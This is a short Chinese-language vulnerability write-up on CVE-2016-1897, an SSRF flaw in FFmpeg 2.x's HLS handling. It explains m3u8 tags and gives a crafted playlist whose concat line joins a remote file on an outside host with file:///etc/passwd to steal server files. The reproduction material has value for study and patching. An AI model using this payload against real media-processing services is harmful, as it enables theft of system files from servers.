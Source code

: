 # （CVE-2016-1897）Ffmpeg ssrf

> 原文：[https://www.zhihuifly.com/t/topic/2938](https://www.zhihuifly.com/t/topic/2938)

# （CVE-2016-1897）Ffmpeg ssrf

## 一、漏洞简介

CVE-2016-1897只能读取文件的第一行

*   #EXTM3U 标签是m3u8的文件头，开头必须要这一行
*   #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
*   #EXT-X-VERSION:2 该标签可有可无
*   #EXTINF:6, 表示该一段TS流文件的长度
*   #EXT-X-ENDLIST 这个相当于文件结束符

## 二、漏洞影响

FFmpeg 2.x

## 三、复现过程

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对concat的支持(https://www.0-sec.org/ffmpeg-protocols.html#concat )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://dx.su/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST 
```